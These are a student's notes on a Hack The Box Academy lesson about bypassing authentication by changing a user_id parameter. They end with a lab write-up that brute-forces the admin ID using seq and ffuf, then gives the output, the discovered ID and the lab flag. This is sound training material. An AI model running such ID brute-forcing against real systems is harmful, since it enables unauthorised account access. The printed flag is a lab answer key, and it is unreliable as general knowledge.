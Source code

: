 ```yaml
---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
```


# Authentication Bypass via Parameter Modification

An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as `Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

***

### Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the `user_id` parameter, let us remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name `user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the `Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the `user_id` parameter.

***

### Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

## Question

***

!\[]\(Pasted image 20250214182725.png)

Once we've authenticated, we can see the following:

!\[]\(Pasted image 20250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

!\[]\(Pasted image 20250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```
